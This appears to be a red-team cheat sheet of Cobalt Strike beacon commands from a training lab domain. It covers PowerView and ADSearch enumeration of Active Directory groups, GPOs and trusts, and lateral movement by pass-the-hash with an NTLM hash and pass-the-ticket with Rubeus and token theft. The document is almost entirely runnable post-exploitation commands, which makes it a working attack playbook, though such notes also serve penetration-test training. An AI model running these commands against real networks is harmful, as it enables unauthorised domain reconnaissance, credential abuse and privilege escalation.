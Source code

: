 ```bash
# Return the members of a specific domain group.
beacon> powershell Get-DomainGroupMember -Identity "Domain Admins" | select MemberDistinguishedName

# Return all Group Policy Objects (GPOs) or specific GPO objects. To enumerate all GPOs that are applied to a particular machine, use -ComputerIdentity.
beacon> powershell Get-DomainGPO -Properties DisplayName | sort -Property DisplayName

# Returns all GPOs that modify local group membership through Restricted Groups or Group Policy Preferences.
beacon> powershell Get-DomainGPOLocalGroup | select GPODisplayName, GroupName

#Enumerates the machines where a specific domain user/group is a member of a specific local group. 
beacon> powershell Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName | fl

# Return all domain trusts for the current or specified domain.
beacon> powershell Get-DomainTrust
```

### AdSearch

You can add `--json`, `--full` and `--attributes`

```bash
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "objectCategory=user"
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=*Admins))"
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=MS SQL Admins))" --attributes cn,member
```

## User Impersonation

### Pass-the-Hash

```bash
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
# To "drop" impersonation 
beacon> rev2self
```

### Pass the Ticket

is a technique that allows you to add Kerberos tickets to an existing logon session (LUID) that you have access to,

> a logon session can only hold a single TGT at a time.

```bash
# new hidden process createnetonly
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
# or less anomalous
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123
# Import ticket
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP

beacon> steal_token 4748
beacon> rev2self
beacon> kill 4748
```
